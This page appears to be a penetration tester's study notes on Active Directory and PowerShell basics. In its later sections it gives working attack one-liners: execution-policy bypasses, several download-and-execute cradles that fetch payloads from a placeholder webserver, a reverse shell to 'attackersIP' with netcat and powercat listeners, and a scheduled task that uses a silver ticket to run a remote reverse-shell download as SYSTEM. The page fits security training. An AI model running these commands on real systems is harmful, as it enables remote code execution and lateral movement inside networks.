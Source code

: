 # AD - Basics & PowerShell Basics

## AD Basics

* Components of AD
  * Shema - Defines objects and their attributes
  * Query and index mechanisem
  * Global catalog - Information about every object
  * Replication service - Distributes information accross domain controllers
* A forest - which is a security boundary - may contain multiple domains and each domain may contain multiple Ous

### How to interact with Active Directory

* \[ADSI]
* .NET Classes (System.DirectoryServices.ActiveDirectoryy)
* Native Executables (like net….)
* PowerShell (.NET classes and WMI)

## Powershell Basics

With PowerShell Scripts you can use cmdlets, native commands, functions, .net, dlls, Windows API

### Help Command

```powershell
Get-Help * - Lists everything abtout the help topic
Get-Help process (lists everything which contains the word process)
Update-Help - Update the healp system (v3+)
Get-help cmdlet_name -Full - List full help about a topic
Get-Help cmdlet_name -Examples
Get-command -CommandType cmdlet - List all cmdlets
```

**Use this parameter to not print errors powershell**\
****-ErrorAction SilentlyContinue

**Rename powershell windows**\
****$host.ui.RawUI.WindowTitle = "name"&#x20;

### Execute

It is NOT a security boundary

<pre class="language-powershell"><code class="lang-powershell">Powershell -exectionpolicy bypass
<strong>powershell -ep bypass
</strong>Powershell -c &#x3C;cmd>
Powersehll -encodedcommand $env:PSExecutionPolicyPreference="bypass"
</code></pre>

### Language Mode & AppLocker

**Display current language mode**

$executioncontext.sessionstate.languagemode

Constrained Language mode is the restriction of types which are not safe/disallowed in constrained language mode. E.g. .Net Classes,\
cdOnly Built-In Commandlets can be used and types/classes etc. are restricted\
Can be configured via AppLoker or Windows Defender Application Mode in Enforcement mode.

Constrained language mode is only for Powershellv5.1, v7 - if attacker can run Powershellv2 no language mode enforcement is possible.

**Set language mode**

```powershell
$ExecutionContext.SessionState.LanguageMode = 'fulllanguage' ==> Not really possible
```

**Check AppLocker Policy - maybe some excludes form constrained language**

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
```

### Execute .PS1 File / PowerView

{% code overflow="wrap" %}
```powershell
. .\PowerView.ps1
iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 -UseBasicParsing)
```
{% endcode %}

### Execute AD Module

Download [https://github.com/samratashok/ADModule](https://github.com/samratashok/ADModule)

```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module .\ActiveDirectory\ActiveDirectory.psd1
```

{% hint style="info" %}
Most of the AD Modules have the -Filter -Properties and -Identity options!

Get-AD-User -Filter \* -Properties \*\
Get-AD-User -Identity username1 -Properties \*
{% endhint %}

{% code overflow="wrap" %}
```powershell



iex (new-Object Net.WebClient).DownloadString('
https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1
Get-Command -Module ActiveDirectory
```
{% endcode %}

### Import Modules / Execute

**Import a module/file**

```powershell
Import-Module <modulepath>
```

**List all commands of a module**

```powershell
Get-Command -Module <modulename>
```

\
**Display Loaded functions**\
ls function:

### Download and execute PowerShell Scripts

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">powershell iex (iwr -UseBasicParsing http://ip/Invoke-PowerShellTcp.ps1); Power -Reverse -IPAddress ip -Port 443 
<strong>
</strong><strong>iex (New-Object Net.WebClient).DownloadString('https://webserver/pay.ps1') - Invoke Expression (iex alias)
</strong></code></pre>

#### &#x20;**Use a COM Object**

{% code overflow="wrap" %}
```powershell
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://webserver/pay.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
{% endcode %}

#### **PSv3 or newer**

{% code overflow="wrap" %}
```powershell
i Iex (iwr '
http://websever/ps.ps1') -iwr is alias for invoke-web request
 $h=New-Object -ComObject
Msxml2.xmlhttp;$h.open('GET','http://webserver/ps.ps1',$fasle);$h.send();iex $h.responseText
$wr = [System.NET.WebRequest]::Create("http://werbser.ps.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
{% endcode %}

**Invoke\_PowerShellTCP.ps1**

Add line at the end of the script:\
Invoke-PowershellTcp -Reverse -IPAddress attackersIP -Port port

## Start Netcat Listener (for e.g. Invoke\_powerShellTcp.ps1)

.\netcat-win32-1.12\nc64.exe -lvp 443

## Other

**Display/delete Kerberos Tickets**\
****klist\
klist purge

**List tasks**\
schtasks /S hostname.dom.local

**Schedudle an execute a task with silver ticket of "HOST" Service**&#x20;

{% code overflow="wrap" %}
```powershell
schtasks /create /S hostname.dom.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (new-object net.webclient).DownloadString(''http://ip/Invoke_powerShellTcp.ps1''')'" 
schtasks /Run /S hostname.dom.local /TN "STCheck"
```
{% endcode %}

**Start listener**\
****. .\powercat.ps1\
powercat -l -v -p 443 -t 1000\
&#x20; When connected press a few times enter

**HFS Webserver tool**\
****Drag & drop files in window to host it

**List tasks**\
tasklist /v

**Display Environment variable in Powershell**

```
Get-ChildItem -Path Env:
```






